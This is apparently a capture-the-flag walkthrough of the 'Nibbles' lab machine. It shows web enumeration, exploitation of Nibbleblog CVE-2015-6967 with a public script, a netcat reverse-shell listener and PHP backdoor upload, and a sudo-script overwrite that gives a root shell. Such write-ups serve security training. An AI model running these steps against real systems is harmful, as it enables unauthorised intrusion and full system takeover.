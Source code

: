 # Setup
```
export TARGET=10.10.10.75
```

# Network enumeration

Starting small with port `80`

```
$ sudo nmap -p80 --script=http-enum $TARGET
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-20 13:03 EST
Nmap scan report for 10.10.10.75
Host is up (0.048s latency).

PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.30 seconds
```

Found webserver on port 80

Found .php CMS blog system on `/nibbleblog/`

Directory enumeration

## Web App Directory

## Directory enumeration
```sh
$ gobuster dir -u $TARGET/nibbleblog -w /usr/share/wordlists/dirb/common.txt -t 5
```

```sh
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog
[+] Method:                  GET
[+] Threads:                 5
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 306]
/.hta                 (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
Progress: 4614 / 4615 (99.98%)
===========================================================
```

## Exploitation
A quick search for the nibbleblog software reveals CVE-2015-6967.
Enables arbitrary file upload

Exploit implementation:

https://github.com/dix0nym/CVE-2015-6967




**Executing the implementation**

Executing the reverse shell listener

```
sudo nc -lnvp 5000
```

Executing the exploit

```
python3 ./scripts/cve-2015-6967/exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload ./scripts/backdoor.php
```


Exploit can be re-run by executing

```
$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
```

https://systemweakness.com/a-look-at-cve-2015-6967-fe9a990d57a1
https://github.com/dix0nym/CVE-2015-6967
https://github.com/0xConstant/CVE-2015-6967

# Post exploitation 


Attempting to add myself to `.authorized_keys` for nice `ssh` access.

```sh
nibbler@Nibbles:/$ mkdir .ssh
mkdir: cannot create directory '.ssh': Permission denied
```

## Rudimentary system enumeration


**System information**
```sh 
$ uname -a

Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```
**User information**
```sh 
$ whoami
nibbles

$id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```


## User flag

Found `/home/nibbler/user.txt`:
```
df6b36ee3798323f6d4b2af47e92fcff
```


# Privelige escalation

Interesting file at `~/personal.zip`

```sh
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
```

Checking contents and permissions
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo --list
sudo --list
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```
Script is vulnerable as it may execute with `sudo` without requiring a password.

Truncating the contents of `monitor.sh`
```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ truncate -s 0 monitor.sh
```

Getting a root shell
```sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo #!/bin/bash >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo /bin/bash >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```

Grabbing root flag
```sh
root@Nibbles:~# cat /root/root.txt
15b6e34d27f4413d25f479c18e9c5a5f
```